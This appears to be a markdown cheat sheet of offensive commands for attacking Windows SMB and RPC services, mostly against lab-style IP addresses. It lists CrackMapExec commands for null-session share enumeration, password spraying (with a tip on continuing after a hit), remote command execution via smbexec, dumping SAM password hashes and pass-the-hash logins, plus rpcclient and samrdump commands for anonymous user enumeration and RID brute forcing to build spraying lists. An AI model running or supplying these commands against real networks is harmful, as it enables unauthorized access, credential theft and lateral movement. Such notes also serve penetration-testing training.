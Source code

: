### CrackMapExec

```shell
crackmapexec smb 10.129.14.128 --shares -u '' -p ''
crackmapexec smb $IP --users
crackmapexec smb $IP -u User -p 'P@$$w0rd!' --shares
crackmapexec smb 192.168.112.312 -u userlist.txt -p 'someP@$$w0rd!'
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
#  Enumerating Logged-on Users
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
# Extract Hashes from SAM Database
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
# Pass-the-Hash (PtH)
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

> **Note:** By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. it is very useful for spraying a single password against a large user list.

### RPCclient

```bash
rpcclient -U "" 10.129.14.128
rpcclient -U'%' 10.10.110.17
rpcclient -U "" -N 10.10.10.161

# grep users for password spraying and ASEProasting
rpcclient -U "" <ip> -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > userlist.txt


# manual brute force RIDs
for i in $(seq 500 1100);do rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo "";done

# Impacket-Samrdump.py to brute force RIDs
samrdump.py 10.129.14.128
```

| **Query**                 | **Description**                                                    |
| ------------------------- | ------------------------------------------------------------------ |
| `srvinfo`                 | Server information.                                                |
| `enumdomains`             | Enumerate all domains that are deployed in the network.            |
| `querydominfo`            | Provides domain, server, and user information of deployed domains. |
| `netshareenumall`         | Enumerates all available shares.                                   |
| `netsharegetinfo <share>` | Provides information about a specific share.                       |
| `enumdomusers`            | Enumerates all domain users.                                       |
| `queryuser <RID>`         | Provides information about a specific user.                        |
